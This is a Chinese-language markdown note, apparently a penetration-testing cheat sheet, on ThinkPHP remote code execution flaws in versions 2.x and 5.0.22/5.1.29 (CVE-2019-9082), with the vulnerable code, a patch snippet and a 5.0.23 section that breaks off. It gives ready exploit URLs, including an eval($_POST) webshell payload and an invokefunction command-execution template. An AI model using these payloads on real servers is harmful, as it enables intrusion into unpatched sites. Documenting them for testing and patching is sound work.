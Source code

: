 ## 2.x任意代码执行漏洞

>[参考文章](https://blog.csdn.net/Hezhoutheone/article/details/120367626)

* 版本

    `thinkphp2.x  &&  php版本为5.6.29以下`

* 利用

    `http://xx.xx.xx.xx:8080/index.php?s=/index/index/xxx/${@phpinfo()}`
    `?s=/index/index/name/${@print(eval($_POST[1]))}`直接连接，不用落到本地

* 原理

    正则`/e`执行模式能执行匹配的内容

    `$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

    ```php

    $depr匹配的是网页路径分隔符，$path匹配的是网页路径

    '$var[\'\\1\']="\\2";'
    这个替换规则一个就是把前面的正则表达式匹配到的第一个数据作为键第二个数据作为值拼一起组成一个数组。

    ```

* 修复


## 5.0.22/5.1.29 RCE(CVE-2019-9082)

* 利用

    `http://xx.xx.xx.xx/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=函数名&vars[1][]=命令参数`

* 修复

    ```php

    if(!preg_match('/^[A-Za-z(\w)*$]/',$controller)){
        throw new HttpException(404,'controller not exists'.$controller);
    }
    ```

    只要匹配到非字母就报错


## 5.0.23 RCE(CVE-2018-20062)

>[一定要看](http://cn-sec.com/archives/770918.html)
>[参考文章](https://wenku.baidu.com/view/9aa56c723f1ec5da50e2524de518964bcf84d282.html)
>[参考文章来源](https://blog.csdn.net/qq_41901122/article/details/122023944)

* 利用
